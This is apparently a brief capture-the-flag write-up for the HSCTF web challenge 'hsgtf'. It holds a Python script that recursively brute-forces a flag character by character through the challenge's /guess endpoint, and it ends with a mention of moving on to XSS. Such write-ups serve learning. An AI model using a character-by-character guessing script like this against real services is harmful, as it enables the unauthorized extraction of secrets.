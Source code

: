 ```yaml
---
created: 2024-06-11T01:36
updated: 2024-06-11T01:38
---
```


## HSCTF - web/hsgtf

**BFFG:** Brute-Force-Flag-Guessing

```python
import string

import requests

URL = 'http://web1.hsctf.com:8001/guess'
chars = list(string.printable)


def guess(flag):
    r = requests.get(url=URL, params={'guess': flag})
    return 'Correct!' in r.text


def guess_next(current):
    print(current + "... ")
    for c in chars:
        print(c, end='')
        if guess(current + c):
            print()
            if c == '}':
                return current + c
            else:
                return guess_next(current + c)
    print("Failed!")


print(guess_next(''))
```

Recursively guess the next character in the flag~

... And we got `flag{fake_flag}`

Well time for XSS

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718084315/2024/06/004d4a24d87dc9bbde156a5577184968.png)
